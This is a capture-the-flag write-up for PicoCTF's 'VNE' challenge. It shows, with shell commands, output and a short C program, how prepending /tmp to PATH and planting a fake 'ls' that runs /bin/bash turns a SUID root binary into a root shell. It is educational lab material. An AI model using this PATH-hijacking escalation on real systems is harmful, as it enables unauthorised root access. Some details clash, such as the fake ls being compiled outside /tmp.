 ```yaml
---
title: "PicoCTF 2023 Binary Exploitation: VNE"
description: "Writeup for VNE from PicoCTF 2023"
slug: "picoctf-vne"
date: "2022-03-06 00:00:00+0000"
image: "cover.jpg"
categories:
    - "CTF"
tags:
weight: 1
---
```


```
📁Category: Binary Exploitation
📄Files: N/A
💻Server Connections: Yes
🏷️Tags: bash, env, injection

📃Description: We've got a binary that can list directories as root, try it 
out !! Additional details will be available after launching your challenge 
instance.

1️⃣Hint 1: Have you checked the contents of the /root folder?
2️⃣Hint 2: Find a way to add more instruction to ls
```

### Takeaways from hints, description, and tags: 
* Something important is in the /root file (the flag)
* We will have to use environment variables
* The binary lists contents of a directory as root
* We need to inject code into “ls”

## Phase 1: Recon 🔍
It is important to get familiar with the machine we log into so that we can find important assets such as possible vulnerabilities, which we may be able to exploit to get us root access.

### What do we notice? 
* A binary that lists a directory as root
* Why this is important: It does it as root via an SUID bit, because the root user made the executable
* How it works: It takes the input for the directory as an environment variable
* Other important takeaways: If it is listing the contents of a directory, it is most probably doing something with the ls binary

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l d-linux-x86-64.so.2, BuildID[shal]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripp 
ctf-player@pico-chall$ ls -l
ed
total 20
-rwsr-xr-x 1 root root 18752 Aug 4 2023 bin
ctf-player@pico-chall$
```

> SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.

## Phase 2: Constructing a Plan 🛠️
Using the information we have gathered, we can try to assess vulnerabilities on our target system. So far, we have thought of environment variable injection, but now it is time for us to plot out this plan.

### The Plan 
We make our own ls binary that spawns a shell. Since the file has an SUID, this will give us a root shell if the binary we are manipulating uses ls (in which according to the hints, it does).

There are however, some rather huge obstacles


> Q1: How would we execute this plan so that the binary we are manipulating thinks our ls binary is the real ls binary?

> A1: We could exploit the `PATH` environment variable. Many hints and tags tell us that the exploit has something to do
with environment variables and the ls executable which the SUID binary is most likely using for its operations.



> Q2: What directory should we put our binary into?

> A2: The answer is /tmp. A directory with read, write, and execute permissions for everyone. This is perfect as it will
be the perfect soil to plant our C code in.

### The Theory: 
When "ls" is typed into the command line, the system looks through path for an executable with the name "ls". So in our injected PATH, because `/tmp` is first, when the binary which runs ls as root runs "ls" as root it wil run our binary as root which will run /bin/bash root.

![image](https://github.com/shuban-789/PicoPwnbooks-BinaryExploitation/assets/67974101/9525b700-e39d-4ec6-a2b6-62fe0edec152)


## Phase 3: Execution 🧀
First, let's log onto our machine. To logon, we will need to use ssh with the command format of: 

`ssh -p <port> <user>@<ip>`

After logging on, let’s list our environment variables, and try editing the PATH.

```
ctf-player@pico-chall$ env SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ga
mes:/usr/local/games:/snap/bin
ctf-player@pico-chall$ env
SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$
```

It looks like the injection worked, so we can move on to making our fake ls executable.

Finally, we need to make our fake ls binary containing this C code:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  system("/bin/bash");
}
```

<br>

```
ctf-player@pico-chall$ touch ls.c
ctf-player@pico-chall$ echo "#include <stdio.h>" >> ls.c
ctf-player@pico-chall$ echo "#include <stdlib.h>" >> ls.c
ctf-player@pico-chall$ echo "int main()" >> ls.c
ctf-player@pico-chall$ echo "{" >> ls.c
ctf-player@pico-chall$ echo " system(\"/bin/bash\");" >> ls.c 
ctf-player@pico-chall$ echo "}" >> ls.c
ctf-player@pico-chall$ cc ls.c -o ls
```

Lets execute!

```
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
root@challenge:/# cd /root
root@challenge: /root# cat flag.txt
picoCTF{try_to_pwn_VNE_on_your_own}root@challenge: /root# exit
```

### Disclaimer
The flag obtained in the command sequence example is obviously an edited version of the real flag. I highly reccomend you to try to solve the VNE problem and obtain its flag on your own.
